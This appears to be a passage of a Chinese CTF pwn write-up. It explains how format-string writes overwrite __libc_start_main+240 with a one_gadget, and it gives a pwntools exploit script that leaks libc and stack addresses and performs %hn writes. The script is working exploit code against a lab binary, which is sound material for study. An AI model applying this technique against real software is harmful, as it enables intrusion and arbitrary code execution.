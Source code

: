 用上面两步来对 i 的次数进行修改

```plain
sla('favourite food: ','%'+str(stack1&0xffff)+'c%11$hn')
sla('favourite food: ','%'+str(og&0xffff)+'c%37$hn')
sla('favourite food: ','%'+str((stack1+2)&0xffff)+'c%11$hn')
sla('favourite food: ','%'+str((og>>16)&0xff)+'c%37$hhn')
```

这四步就是把 \_libc\_start\_main+240 修改成 one\_gadget

## exp

```plain
from pwn import *
context.log_level = 'debug'
context.arch="amd64"
p=process("./pwn")
#p=remote("node4.buuoj.cn",25309)
elf=ELF("./pwn")
libc=ELF('libc.so.6')

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

#gdb.attach(p)

ru('Give me your name:')
s(b'a'*32)
ru('favourite food: ')
sl(b'%9$p-%11$p')#%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
#gdb.attach(p)
ru("0x")
libc_base=int(r(12),16)-libc.sym['__libc_start_main']-240
leak('libc_base:',libc_base)
ogs=[0x45226,0x4527a,0xf03a4,0xf1247]
og=libc_base+ogs[0]
leak('og ',og)
leak('(og>>16)&0xff',((og>>16)&0xff))
#leak('og')

ru("0x")
stack=int(r(12),16)
stack1=stack-224
leak('stack1 ',stack1)
leak('stack1&0xffff ',stack1&0xffff)
leak('(stack1+2)&0xffff',(stack1+2)&0xffff)
i_addr=stack-(0x7ffe373b3e18-0x7ffe373b3d10)+0x8+0xc
leak('i_addr',i_addr)
#gdb.attach(p)
sla('favourite food: ','%'+str(i_addr&0xffff)+'c%11$hn')
```